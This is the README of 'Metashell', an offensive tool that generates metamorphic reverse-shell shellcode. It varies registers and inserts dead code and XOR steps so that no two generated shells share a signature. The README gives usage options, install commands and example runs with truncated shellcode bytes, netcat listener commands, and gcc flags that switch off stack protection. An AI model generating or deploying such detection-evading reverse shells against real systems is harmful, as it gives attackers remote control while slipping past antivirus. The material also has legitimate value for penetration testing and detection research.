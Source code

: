 
# Metashell

Simple metamorphic reverse shell generator.\
\
This tool will randomly choose registry between `r8` to `r15` to handle the different file descriptors for the reverse shell.\
 It will also put some dead code within the shellcode so that none of the generated shell's signatures can't be identical.

```
     • ▌ ▄ ·. ▄▄▄ .▄▄▄▄▄ ▄▄▄· .▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
     ·██ ▐███▪▀▄.▀·•██  ▐█ ▀█ ▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ▐█ ▌▐▌▐█·▐▀▀▪▄ ▐█.▪▄█▀▀█ ▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
     ██ ██▌▐█▌▐█▄▄▌ ▐█▌·▐█ ▪▐▌▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
     ▀▀  █▪▀▀▀ ▀▀▀  ▀▀▀  ▀  ▀  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple metamorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/metashell

    
usage: main.py [-h] -i IP -p PORT [-e {big,little}] [-x XORNB] [-b] [-hs] [-v] [-o OUTFILE]

optional arguments:
  -h, --help            show this help message and exit
  -i IP, --ip IP        IPv4 Address
  -p PORT, --port PORT  Port to bind
  -e {big,little}, --endian {big,little}
                        Endianness of the target, default=little
  -x XORNB, --xornb XORNB
                        Number of xor to put, default=10
  -b, --build           Compile the C file
  -hs, --hide-shellcode
                        Hide the shellcode printing
  -v, --verbose         Add verbosity printing
  -o OUTFILE, --outfile OUTFILE
                        Outfile shellcode's namee
```
## Requirements

`python3.X` and additionnaly `gcc` if you desire to compile the C file.


## Installation

```bash
git clone https://github.com/Vadimador/metashell
cd metashell
./main.py
```

You can add the metashell main.py to path one of your PATH to execute it from anywhere.
```
cd metashell
ln -s $(readlink -f main.py) ~/.local/bin/metashell
```
    
## Run

### Create a reverse shell and build it, save the shellcode in a TXT file

```bash
┌[t4yki@d3v]
└[~]> metashell -i 127.0.0.1 -p 6666 -b -v

     • ▌ ▄ ·. ▄▄▄ .▄▄▄▄▄ ▄▄▄· .▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
     ·██ ▐███▪▀▄.▀·•██  ▐█ ▀█ ▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ▐█ ▌▐▌▐█·▐▀▀▪▄ ▐█.▪▄█▀▀█ ▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
     ██ ██▌▐█▌▐█▄▄▌ ▐█▌·▐█ ▪▐▌▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
     ▀▀  █▪▀▀▀ ▀▀▀  ▀▀▀  ▀  ▀  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple metamorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/metashell


 [!] Shellcode generated :

\x48\x31\xc0\x48\x31...\x0f\x05


 [+] Compiled shellcode : reverse_shell
 [+] Start a listener : nc -lvnp 6666
 ```

 ### Create a reverse shell and modify the number of xor and hide shellcode printing
```bash
┌[Vadimador@d3v] 
└[~]> metashell -i 127.0.0.1 -p 1024 -x 54 -b -v

     • ▌ ▄ ·. ▄▄▄ .▄▄▄▄▄ ▄▄▄· .▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
     ·██ ▐███▪▀▄.▀·•██  ▐█ ▀█ ▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ▐█ ▌▐▌▐█·▐▀▀▪▄ ▐█.▪▄█▀▀█ ▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
     ██ ██▌▐█▌▐█▄▄▌ ▐█▌·▐█ ▪▐▌▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
     ▀▀  █▪▀▀▀ ▀▀▀  ▀▀▀  ▀  ▀  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple metamorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/metashell


 [!] Shellcode generated :

\x4d\x31\xc9\x4d\x31\xf6...\xff\x0f\x05    


 [+] Compiled shellcode : reverse_shell
 [+] Start a listener : nc -lvnp 1024
```

### Create a reverse shell but don't build it, just save it to C and TXT file.

```bash
┌[Ninuuu@d3v] 
└[~]> metashell -i 127.0.0.1 -p 4444 -x 88 -v

     • ▌ ▄ ·. ▄▄▄ .▄▄▄▄▄ ▄▄▄· .▄▄ ·  ▄ .▄▄▄▄ .▄▄▌  ▄▄▌  
     ·██ ▐███▪▀▄.▀·•██  ▐█ ▀█ ▐█ ▀. ██▪▐█▀▄.▀·██•  ██•  
     ▐█ ▌▐▌▐█·▐▀▀▪▄ ▐█.▪▄█▀▀█ ▄▀▀▀█▄██▀▐█▐▀▀▪▄██▪  ██▪  
     ██ ██▌▐█▌▐█▄▄▌ ▐█▌·▐█ ▪▐▌▐█▄▪▐███▌▐▀▐█▄▄▌▐█▌▐▌▐█▌▐▌
     ▀▀  █▪▀▀▀ ▀▀▀  ▀▀▀  ▀  ▀  ▀▀▀▀ ▀▀▀ · ▀▀▀ .▀▀▀ .▀▀▀ 

       Simple metamorphic reverse shell generator.

                Vadimador - Ninuuu - t4yki
         https://github.com/Vadimador/metashell


 [!] Shellcode generated :

\x4d\x31\xc9\x4d\x31...\x0f\x05


 [+] C file to test the shellcode : reverse_shell.c
 [+] Build : gcc reverse_shell.c -o shell -fno-stack-protector -z execstack -no-pie
```
